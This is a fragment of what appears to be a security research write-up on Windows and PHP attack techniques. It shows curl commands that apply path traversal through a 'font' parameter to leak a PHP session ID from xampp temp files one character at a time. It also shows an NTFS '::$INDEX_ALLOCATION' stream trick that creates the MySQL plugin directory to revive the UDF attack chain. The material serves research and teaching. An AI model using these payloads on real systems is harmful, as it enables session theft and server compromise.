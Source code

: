 ```perl
        |                          v                         |
        |              +----------+----------+               |
        |              |                     |               |
        |        +-----+-----+         +-----+----+          |
        |        |  No image |         | Image OK |          |
        |        +-----+-----+         +-----+----+          |
        |              |                     |               |
        |              v                     v (prefix += C) |
        +--------------+                     +---------------+

$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_A<"      # [--]
$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_B<"      # [--]
$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_C<"      # [OK]
$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_CA<"     # [--]
$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_CB<"     # [OK]

  [...]

$ curl "${URL}&font=[...]/tmp/sess_CBHRVOFTMP41BIOV02VPSGSUP7"      # [OK]

```
<PRE>


Also, Alternate Data Streams (ADS) on NTFS is another feature hackers love
to abuse. A classic trick is using a special stream to turn "arbitrary
file writes" into "arbitrary directory creation" [45].  One particularly
memorable combo is leveraging this trick to create the missing
`@@plugin_dir` directory, thereby reviving the MySQL UDF attack chain!

</PRE>

***=> Revive the MySQL UDF Attack!***

<br>

```batch
C:\Users\Orange> ver
  Microsoft Windows [Version 10.0.19042.631]

C:\MySQL\lib> dir plugin
  File Not Found

C:\MySQL\lib> mysql -uroot -e
  mysql> SELECT 1 INTO OUTFILE 'C:\\MySQL\\lib\\plugin::$INDEX_ALLOCATION'
  ERROR 3 (HY000): Error writing file [...]  (Errcode: 22)

C:\MySQL\lib> dir plugin
  04/21/2025  06:21 PM    <DIR>          .
  04/21/2025  06:21 PM    <DIR>          ..
```
<PRE>

